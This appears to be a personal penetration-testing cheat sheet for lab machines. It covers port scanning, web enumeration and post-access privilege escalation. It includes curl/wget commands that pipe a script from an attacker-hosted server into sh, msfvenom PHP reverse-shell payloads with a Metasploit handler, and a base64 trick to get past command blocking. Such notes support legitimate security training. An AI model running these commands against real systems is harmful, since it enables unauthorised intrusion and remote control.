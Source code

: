 ﻿# Guide

# Scan

    nmap -sV 192.168.56.107/24
    sudo nmap -v --script vuln  192.168.56.108

Run nmap and find open ports  
No ports open? Try nmap with -Pn

## Windows
https://book.hacktricks.xyz/windows-hardening/basic-cmd-for-pentesters

# HTTP

Run gobuster, nikto, dirb

Look for
- robots.txt
- backup files
- configuration files

- View source
- Inputs
  - Injection
    - SQL
    - Command
  - Default user
  - Brute force with ffuf
- URL Parameters 
  - Injection
      - SQL
      - Command
  - Fuzzer

# FTP

    ftp <ip>

# Gained access
## Linux
https://book.hacktricks.xyz/linux-hardening/useful-linux-commands

### Serve file remotely

On attacker machine, go where your script is and start a http server

    cd ~/privesc/linux && python3 -m http.server

On target machine

    curl -L http://192.168.56.107:8000/linpeas.sh | sh
    wget -q -O - http://192.168.56.107:8000/linpeas.sh | sh

### Useful Software
https://book.hacktricks.xyz/linux-hardening/privilege-escalation

    which nmap aws awk nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc ctr runc rkt kubectl 2>/dev/null

Find commands with sudo permissions

    sudo -l

## Compile C

   gcc -Wall -o compiled-output source.c -lpthread



## Reverse shells

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md

metasploit

    use exploit/multi/handler

### PHP

    msfvenom -p php/reverse_php LHOST=192.168.56.107 LPORT=4443
    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.107 LPORT=4443

# Troubleshoot

## Command blocked

- Try to encode it with base64
   "base64Code" | base64 -d | bash